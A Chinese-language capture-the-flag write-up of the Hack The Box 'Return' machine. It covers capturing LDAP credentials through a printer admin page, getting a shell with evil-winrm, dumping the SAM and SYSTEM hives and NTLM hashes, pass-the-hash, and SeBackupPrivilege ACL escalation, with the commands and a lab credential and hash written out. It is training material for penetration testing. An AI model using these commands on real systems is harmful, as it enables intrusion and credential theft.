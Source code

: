 ```yaml
---
description: Easy / LDAP明文传输 / SeBackupPrivilege提权
---
```


# ✔️ Return

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA return 10.129.95.241 --open
```

<figure><img src="../../.gitbook/assets/1 (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (15).png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出信息发现目标系统开放了80端口，登录查看是一个打印机的管理员界面：

<figure><img src="../../.gitbook/assets/3 (17).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch没有找出来什么特别的隐藏文件/目录，在查看settings.php页面发现了域名、端口还有用户名和密码，其中密码部分无法查看：

<figure><img src="../../.gitbook/assets/4 (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (16).png" alt=""><figcaption></figcaption></figure>

* 将找到的域名和之前Nmap输出中的域名添加到hosts文件里：

<figure><img src="../../.gitbook/assets/7 (18).png" alt=""><figcaption></figcaption></figure>

* 先尝试使用不同工具进行匿名登录SMB均无收获，enum4linux信息收集也没有什么收获：

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

* 回到打印机settings的界面，它设置的端口389是LDAP协议，该打印机是通过LDAP连接到目标域进行身份验证的，这意味着用户svc-printer是一个域内用户账户，且LDAP是明文传输，因此当我们修改目标服务器地址为Kali本机地址时，并在本机做好监听后，即可读取到传输的明文密码内容：

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

* 此时已获得一个有效凭证：<mark style="color:red;">**svc-printer:1edFg43012!!**</mark>&#x20;

### GET SHELL

* 通常当有了一个有效凭证后就可以尝试用evil-winrm来获取shell了（虽然并不总是管用）：

```bash
evil-winrm -i return.local -u svc-printer -p '1edFg43012!!'
```

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS进行信息收集：

```bash
# evil-winrm
upload /root/Documents/HTB-AD/return/info/winPEASx64.exe
.\winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

* 在winPEAS的输出信息中，找到了当前账户的所有的权限中有sebackupprivilege权限，这意味着当前用户在目标系统中有了读取文件和数据的能力。因此，决定从目标系统的SAM中提取高权限用户的哈希，并以此作为登录的凭证：

<figure><img src="../../.gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 创建一个/temp目录，并将HKLM的sam.hive和system.hive复制到 /temp目录下并下载：

```bash
# evil-winrm
mkdir C:\temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```

<figure><img src="../../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19.png" alt=""><figcaption></figcaption></figure>

* 再使用impacket-secretsdump获取NTLM哈希：

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

<figure><img src="../../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>

* 最后使用获取到的Administrator账户的哈希，利用evil-winrm进行登录，以为是网络原因登录不成功，但换了时间尝试多次发现该账户应该是不能用hash进行登录：

```bash
evil-winrm -i return.local -u "Administrator" -H "34386a771aaca697f447754e4863d38a"
```

<figure><img src="../../.gitbook/assets/21 (7).png" alt=""><figcaption></figcaption></figure>

* 因此重新搜索关于SeBackupPrivilege的漏洞利用脚本，发现Acl-FullControl.ps1脚本适用于SeBackupPrivilege提权，它是在当前用户的权限下，修改指定路径的访问控制列表(ACL)，给低权限用户添加高权限，赋予它完全的控制权，从而达到提权的效果。
* 该命令将当前的svc-printer用户的访问控制权指向到c:\users\administrator\，执行成功的话就意味着我们对这个目录及其内容有完全控制权：

```powershell
Import-module .\Acl-FullControl.ps1; Acl-FullControl -user svc-printer -path c:\users\administrator\
```

<figure><img src="../../.gitbook/assets/22 (7).png" alt=""><figcaption></figcaption></figure>

* 上传脚本，并执行：

<figure><img src="../../.gitbook/assets/23 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25 (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Get Shell阶段除了常规的枚举之外，还应注意那些最直接的信息。提权阶段锁定漏洞时，有时手动枚举可能会比工具枚举来的更快一些。特别是网络状况不太好时，传输文件会极其的慢。
{% endhint %}
